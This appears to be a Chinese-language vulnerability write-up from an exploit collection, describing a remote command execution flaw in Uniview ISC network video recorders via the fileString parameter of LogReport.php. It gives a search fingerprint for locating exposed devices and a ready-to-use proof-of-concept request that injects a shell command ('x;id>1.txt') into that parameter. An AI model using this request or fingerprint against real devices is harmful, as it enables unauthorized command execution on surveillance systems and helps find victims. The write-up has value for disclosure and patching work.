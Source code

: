 # 浙江宇视科技 网络视频录像机 ISC LogReport.php 远程命令执行漏洞

## 漏洞描述

浙江宇视科技 网络视频录像机 ISC /Interface/LogReport/LogReport.php 页面，fileString 参数过滤不严格，导致攻击者可执行任意命令

## 漏洞影响

<a-checkbox checked>浙江宇视科技 网络视频录像机 ISC</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="uniview-ISC"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1645887597864-478bdd00-527b-4a78-a161-f7bbf022a0d5.png)

验证POC

```javascript
/Interface/LogReport/LogReport.php?action=execUpdate&fileString=x;id>1.txt
```

![img](../../../.vuepress/public/img/1645887664378-917e4c3f-62cc-4dd2-9faa-eb8aeadd734d.png)



